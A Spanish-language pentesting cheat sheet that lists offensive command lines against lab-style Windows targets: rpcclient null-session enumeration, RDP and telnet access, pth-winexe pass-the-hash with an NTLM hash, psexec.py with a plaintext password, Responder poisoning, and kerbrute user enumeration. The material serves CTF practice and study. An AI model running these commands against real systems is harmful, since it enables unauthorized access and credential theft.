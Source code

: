 ## **Rpcclient**
```Bash
rpcclient -U "" -N [IP] #Conexion remota
srvinfo #Informacion SO
enumdomusers #Enumeración usuarios
enumdomgroups #Enumeración grupos
```

## **Telnet**
```Bash
telnet <IP> <port>
#Para abrir telent Ctrl+AltGr+]
quit #Salir de telnet
```

## **Xfreerdp**
```Bash
xfreerdp /u:administrator /p:qwertyuiop /cert:ignore /v:10.2.28.248:3333
```

## **Rdesktop**
```
rdesktop <IP>
```

## **Winexe**
```Bash
winexe -U 'admin%password' //<IP> cmd.exe #Acceder con credenciales
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.32.61 cmd.exe #Acceder con Hash completo
```

## **Psexec**
```Bash
psexec.py Administrator@10.2.30.5
python3 psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.29.151
```

## **Responder**
```
responder -I eth0
```

## **Kerberos**
### **Kerbrute**
```Bash
./kerbrute userenum --dc 10.10.116.29 -d lab.enterprise.thm /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt
```
- Enumerar usuarios desde kerberos
